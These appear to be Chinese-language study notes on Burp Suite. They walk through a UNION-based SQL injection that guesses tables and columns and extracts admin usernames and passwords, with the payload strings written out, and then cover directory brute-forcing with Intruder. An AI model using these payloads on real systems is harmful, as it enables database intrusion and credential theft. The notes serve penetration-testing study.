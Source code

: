 用Intruder 开始攻击, 查看结果-Response

查看结果后 确定为3个字段，在结果里右击查询3字段的发送到repeater, Go一下。
   在params里 select%201,2,3 from a   测试a表是否存在。显示 doesn't exist, 将它 设置成Grep Match 字段进行过滤。
   payloads load,  common-tables进行start attack。

查看结果， 确定admin为表名。继续修改params 猜列名

        select%201,a,3%20from%20admin 显示 unkonwn column ，将请求必到Intruder,
          将 a 设置成变量， unkonwn column为过滤字段。
          payload - load, comman - column
          start attack,查看结果。
          确定了id , password, 列。
        -1 union all select%201,password,3%20from%20admin
        -1 union all select%201,password,3%20from%20admin limit 0, 1
发到 Intruder

    id=1 union all select 1,2,3 from admin#
    id=1 union all select 1,password,3 from admin#
    id=1 union all select 1,concat(id, username, password),3 from admin#
    id=1 union all select 1,concat(id,0x7c, username,0x7c, password),3 from admin#
     0x7c是管理符 | 

发到intruder, 

      limit%20$0$,1 这里将0改为字段了。limit参数为：偏移量，最大数目

      payload type: numbers,
        from 0, to 3, step 1,
      start attack

Grep Extract, add选中后会自动正则。 清除多余的过滤。b

菜单栏 save - result table, 只留一个正则。保存

### Burp Suite目录与文件扫描测试
1.抓包 history中， 发到Intruder

2.Positions

      payload 加载  php去重复.txt 字典
      payload 选项卡 中有 Payload Encoding √要去掉 （否则会编码/符号）
      start attack
      在结果列表， Filter 只勾2xx


## TODO
扫描添加.git
